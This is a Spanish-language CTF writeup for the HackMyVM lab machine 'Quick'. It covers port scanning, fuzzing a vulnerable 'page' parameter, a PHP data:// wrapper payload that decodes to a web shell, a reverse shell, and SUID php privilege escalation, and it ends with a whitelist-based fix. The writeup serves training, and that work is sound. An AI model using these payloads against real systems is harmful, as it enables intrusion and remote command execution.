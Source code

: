 ```yaml
---
title: 'Quick'
date: 2024-02-05T20:04:07-03:00
permalink: /posts/hackmyvm/:title/
categories: ["Writeups", "HackMyVm"]
tags: ['Linux', 'CTF', 'File Inclusion', 'PHP', 'PHP Wrapper', 'SUID']
image:
  path: /assets/img/hmvm/quick/quick-0.png
---
```


¡Hola, hacker! ¡Bienvenido a un nuevo post!

En este artículo, nos adentraremos en la resolución de la máquina [Quick](https://hackmyvm.eu/machines/machine.php?vm=quick) de la plataforma HackMyVM. Comenzaremos aprovechando un parámetro en la URL para obtener acceso al sistema mediante una reverse shell. Este parámetro se emplea para cargar diversas secciones del sitio, pero su validación no está siendo realizada de manera adecuada. Finalmente, nos aprovecharemos de un binario de `php` con permisos SUID para escalar nuestros privilegios.

## Reconocimiento

Comenzamos lanzando una traza ICMP a la máquina objetivo para comprobar que tengamos conectividad.

![Quick](/assets/img/hmvm/quick/quick-1.png)
_Reconocimento usando el comando ping_

Vemos que responde al envío de nuestro paquete, verificando de esta manera que tenemos conectividad. Por otra parte, confirmamos que estamos frente a una máquina Linux basandonos en el TTL (Time To Live).

## Enumeración

### Descubrimiento de puertos abiertos
Realizamos un escaneo con nmap para descubrir que puertos TCP se encuentran abiertos en la máquina víctima.

```bash
nmap -sS -p- --open --min-rate 5000 -Pn -n 20.20.20.12 -vvv -oG scanPorts
```

![Quick](/assets/img/hmvm/quick/quick-2.png)
_Descubrimiento de puertos abiertos_

> ver la [Cheatsheet](/posts/cheatsheet/#22-nmap) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

### Enumeración de versión y servicio

Lanzamos una serie de script básicos de enumeración propios de nmap, para conocer la versión y servicio que esta corriendo bajo los puertos abiertos.

```bash
nmap -sCV -p22,80 -vvv -oN targeted 20.20.20.12
```

![Quick](/assets/img/hmvm/quick/quick-3.png)
_Descubrimiento de versión y servicio con nmap_

> ver la [Cheatsheet](/posts/cheatsheet/#22-nmap) para más detalle sobre los parámetros utilizados.
{: .prompt-info }

## Explotación

Accedemos al sitio web que se encuentra en ejecución en el puerto 80, donde nos encontramos lo siguiente:

![Quick](/assets/img/hmvm/quick/quick-4.png)
_Web Quick_

![Quick](/assets/img/hmvm/quick/quick-5.png)
_Web Quick_

Podemos notar que las diversas secciones del sitio web se cargan dinámicamente mediante el parámetro `page`. Esto se puede verificar al acceder directamente a alguno de estos archivos.

![Quick](/assets/img/hmvm/quick/quick-7.png)
_Web Quick - parámetro page_

También, podemos verficarlo haciendo un poco de web fuzzing.

```bash
ffuf -fw 219 -c -u 'http://20.20.20.12/index.php?page=FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
![Quick](/assets/img/hmvm/quick/quick-6.png)
_Web Fuzzing - parámetro page_

Teniendo en cuenta lo anterior, podemos intentar leer archivos del sistema aplicando *Directory Path Traversal*.

```bash
http://20.20.20.12/index.php?page=../../../../../../../etc/passwd
```

![Quick](/assets/img/hmvm/quick/quick-8.png)
_Web Fuzzing - parámetro page_

Pero vemos que no tenemos éxito.

Si probamos aplicar un wrapper de php, por ejemplo: `php://filter/convert-base64.encode/resource=home` para leer el contenido de los archivos php, vemos que tampoco tenemos suerte. 

![Quick](/assets/img/hmvm/quick/quick-9.png)
_Web Fuzzing - parámetro page_

Al investigar sobre los wrappers en PHP, descubrí una técnica para ejecutar comandos en la máquina víctima mediante el wrapper `data://`.

Referencia: [File Inclusion/Path traversal](https://book.hacktricks.xyz/pentesting-web/file-inclusion#remote-file-inclusion)

```bash
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

Esta línea de código PHP utiliza una URL de datos (data URI) para proporcionar datos directamente en el código PHP sin necesidad de acceder a un archivo externo.

- `data://`: Indica que se trata de una URL de datos.
- `text/plain`: Especifica el tipo MIME de los datos, en este caso, texto plano.
- `;base64`: Indica que los datos están codificados en Base64 para evitar problemas con caracteres especiales.
- `,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt`: Los datos codificados en Base64.

Después de decodificar, esto se traduce como:

```bash
echo 'PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+' | base64 -d;
<?php system($_GET['cmd']);echo 'Shell done !'; ?>>
```

![Quick](/assets/img/hmvm/quick/quick-11.png)
_Web Fuzzing - parámetro page_

![Quick](/assets/img/hmvm/quick/quick-10.png)
_Web Fuzzing - parámetro page_

Ahora que tenemos capacidad de ejecución de comandos, podemos ganar acceso al sistema.

Enviamos una reverse shell a nuestra máquina atancate por el puerto 4444.

![Quick](/assets/img/hmvm/quick/quick-12.png)
_Reverse shell_

Hacemos un tratamiento de la tty para tener una terminal más interactiva:

- `script /dev/null -c bash`
- CTRL + Z
- `stty raw -echo; fg`
- `reset xterm`
- `export TERM=xterm`
- `export SHELL=bash`
- `stty rows <rows> columns <columns>`

Y de esta forma, ya podemos leer el flag de `user.txt`

![Quick](/assets/img/hmvm/quick/quick-13.png)
_user.txt_

## Escalación de privilegios

Al realizar una enumeración del básica del sistema, encontramos que el binario `/usr/bin/php7.0` es SUID.

![Quick](/assets/img/hmvm/quick/quick-14.png)
_SUID /usr/bin/php7.0_

Si hacemos una búsqueda en GTFOBins, nos encontramos con una forma de escalar nuestros privilegios en este contexto [GTFOBins - php](https://gtfobins.github.io/gtfobins/php/#suid).

![Quick](/assets/img/hmvm/quick/quick-15.png)
_GTFOBins - php_

Por lo tanto, procedemos a escalar nuestros privilegios.

![Quick](/assets/img/hmvm/quick/quick-16.png)
_Exploit SUID /usr/bin/php7.0_

Y por ultimo, leemos el flag de `root.txt`

![Quick](/assets/img/hmvm/quick/quick-17.png)
_root.txt_

## Extras

Antes de concluir el post, analizemos la parte del código vulnerable:

Vemos que no existe ninguna validación previa, más alla de forzar la extensión a `.php`.

Para validar este código, podemos hacer algo como lo siguiente:

```php
<?php
// Lista blanca de páginas permitidas
$allowedPages = ['home', 'about', 'contact', 'cars'];

// Si no se proporciona ninguna página, cargar la página predeterminada (home)
$page = isset($_GET['page']) ? $_GET['page'] : 'home';

// Manejar el caso en que la página solicitada no está permitida
if (!in_array($page, $allowedPages)) {
    http_response_code(403);
    die("Error 403: Acceso no permitido a esta página");
}

$filePath = __DIR__ . '/' . $page . '.php';

// Manejar el caso en que el archivo no existe
if (!file_exists($filePath)) {
    http_response_code(404);
    die("Error 404: Página no encontrada");
}

include($filePath);
?>
```
1. Se define una lista blanca de páginas permitidas (`$allowedPages`).
2. Se verifica si la página solicitada está en la lista blanca antes de incluir el archivo.
3. Se construye la ruta completa del archivo para incluir utilizando __DIR__ para obtener el directorio actual del script.
4. Se verifica si el archivo realmente existe antes de incluirlo.

Este enfoque ayuda a mitigar la posibilidad de LFI y brinda un control más estricto sobre las páginas permitidas.

De esta forma, concluimos el Writeup de la máquina Quick.

Espero que los conceptos hayan quedado claros. En caso de tener alguna duda, te invito a realizar nuevamente la máquina para afianzar tus conocimientos.

Gracias por tu lectura!

Happy Hacking!
